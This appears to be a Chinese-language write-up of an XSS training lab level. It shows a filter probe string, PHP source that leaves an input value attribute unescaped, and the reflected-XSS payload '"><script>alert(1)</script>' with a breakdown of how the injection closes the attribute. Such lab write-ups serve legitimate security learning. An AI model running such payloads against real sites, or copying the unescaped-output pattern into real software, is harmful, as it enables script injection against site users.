

# Level-2 （input value 属性注入）

## 万能探针

先扔进去看过滤情况：

```
<SCRscriptIPT>'"()Oonnjavascript
```

## 查看分析源码

```php
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level2.php method=GET>
<input name=keyword  value="'.$str.'">
```

htmlspecialchars 只护了 h2 里那行 echo——探针的 `<>"` 全被转义成 `&lt; &gt; &quot;`

input value 里不一样——探针的 `<SCRscriptIPT>'"()Oonnjavascript` 原样输出，`<>'"` 全部活着

注入点在 value 属性里，没有任何过滤和转义

## 构造 payload

先关 value 属性 → 再关 input 标签 → 插 `<script>`：

```
"><script>alert(1)</script>
```

请求：`level2.php?keyword="><script>alert(1)</script>`


## 闭合原理

拼进去 HTML 变成：

```html
<input name=keyword value=""><script>alert(1)</script>">
                         ↑__↑ ↑__________________↑ 
                            闭合 value             多余 "> 浏览器忽略
```

三个动作：`"` 关 value，`>` 关 input，`<script>` 执行。尾部的 `">` 是 input 标签原来就有的，浏览器直接忽略。
